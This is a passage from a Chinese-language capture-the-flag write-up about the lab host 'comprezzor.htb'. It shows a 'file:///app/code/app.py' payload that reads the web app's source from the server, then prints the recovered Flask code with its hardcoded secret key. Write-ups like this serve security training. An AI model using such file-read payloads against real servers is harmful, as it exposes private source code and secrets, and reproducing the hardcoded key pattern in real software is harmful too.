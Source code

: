 <figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

可以知道启动web项目时,使用的指令为

```bash
python3 /app/code/app.y
```

也就知道了 flask 的入口py文件.

继续构造payload获取app.py的源码:

```bash
 file:///app/code/app.py
```

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

整理后的代码:

```python
from flask import Flask, request, redirect
from blueprints.index.index import main_bp
from blueprints.report.report import report_bp
from blueprints.auth.auth import auth_bp
from blueprints.dashboard.dashboard import dashboard_bp

app = Flask(__name__)
app.secret_key = "7ASS7ADA8RF3FD7"
app.config['SERVER_NAME'] = 'comprezzor.htb'
app.config['MAX_CONTENT_LENGTH'] = 5 * 1024 * 1024  # Limit file size to 5MB
ALLOWED_EXTENSIONS = {'txt', 'pdf', 'docx'}  # Add more allowed file extensions if needed

app.register_blueprint(main_bp)
app.register_blueprint(report_bp, subdomain='report')
app.register_blueprint(auth_bp, subdomain='auth')
app.register_blueprint(dashboard_bp, subdomain='dashboard')

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0", port=80)
```
